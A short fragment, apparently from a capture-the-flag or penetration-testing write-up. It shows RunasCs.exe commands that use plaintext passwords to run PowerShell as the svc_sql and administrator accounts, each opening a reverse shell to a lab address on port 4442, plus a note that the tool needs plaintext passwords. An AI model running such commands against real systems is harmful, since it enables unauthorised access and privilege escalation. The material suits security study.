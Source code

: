 ```powershell
.\RunasCs.exe svc_sql 'P@ssw0rd1!' powershell -l 5 -b -r 10.10.16.60:4442 # reverse_shell
```

>[!NOTE] RunasCs.exe
> RunasCs.exe needs the plain text of the password, it doesn't accept NTLM hash.

```
.\RunasCs.exe administrator 'StrongPassword1234!' powershell -l 5 -b -r 10.10.16.60:4442
```